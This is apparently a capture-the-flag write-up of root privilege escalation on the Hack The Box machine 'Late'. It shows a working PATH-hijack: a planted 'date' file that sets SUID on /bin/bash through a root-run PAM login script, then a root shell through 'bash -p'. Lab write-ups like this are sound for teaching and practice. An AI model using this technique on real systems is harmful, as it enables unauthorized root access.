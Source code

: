 ```bash
RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```
As we can assume this script is executed every time we do an ssh login.  
We can use `pspy64`  and trigger an ssh login event (using ssh keys) to confirm this behaviour.  
```bash
2022/07/14 16:08:43 CMD: UID=0    PID=4638   | /bin/bash /usr/local/sbin/ssh-alert.sh
2022/07/14 16:08:43 CMD: UID=0    PID=4640   | /bin/bash /usr/local/sbin/ssh-alert.sh
2022/07/14 16:08:47 CMD: UID=110  PID=4642   | sshd: [net]
2022/07/14 16:08:47 CMD: UID=0    PID=4641   | sshd: [accepted]
2022/07/14 16:08:47 CMD: UID=0    PID=4643   | /bin/bash /usr/local/sbin/ssh-alert.sh
2022/07/14 16:08:47 CMD: UID=0    PID=4644   |
2022/07/14 16:08:47 CMD: UID=0    PID=4645   | /bin/bash /usr/local/sbin/ssh-alert.sh
2022/07/14 16:08:47 CMD: UID=0    PID=4647   | /bin/bash /usr/local/sbin/ssh-alert.sh
2022/07/14 16:08:47 CMD: UID=0    PID=4648   | sendmail: MTA: 26EG8lLc004648 localhost.localdomain [127.0.0.1]: DATA
2022/07/14 16:08:47 CMD: UID=1000 PID=4650   | sshd: svc_acc
2022/07/14 16:08:47 CMD: UID=0    PID=4649   | sendmail: MTA: ./26EG8lLc004648 from queue
2022/07/14 16:08:47 CMD: UID=0    PID=4651   | sensible-mda svc_acc@new root  127.0.0.1
```
as we can see, as we login, the script get executed.  
Now, if we inspect `$PATH` we can see that `/usr/local/sbin` (owned by us in in the path).  
Now, since the script does not contain full path for commands like `date`, we can hijack the path if date is located in a folder with a lower priority than  `/usr/local/sbin` .  
```bash
svc_acc@late:~$ echo $PATH
/home/svc_acc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
svc_acc@late:~$ which date
/bin/date
```
If root that is triggering the execution of `/usr/local/sbin/ssh-alert.sh` has the same `$PATH`, we can hijack the path and execute commands as root.  
Now we can create a file `date` in `/usr/local/sbin` with the following content:  
```shell
svc_acc@late:/usr/local/sbin$ cat date
chmod 4755 /bin/bash
```
Now if we login as `svc_user` if the path gets hijacked we can run bash with SUID:  
```
[root@kali Late ]$ ssh -l svc_acc -i keys/id_rsa $TARGET
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
-bash-4.4$ bash -p
bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
bash-4.4# id
uid=1000(svc_acc) gid=1000(svc_acc) euid=0(root) groups=1000(svc_acc)
```
and we owned root

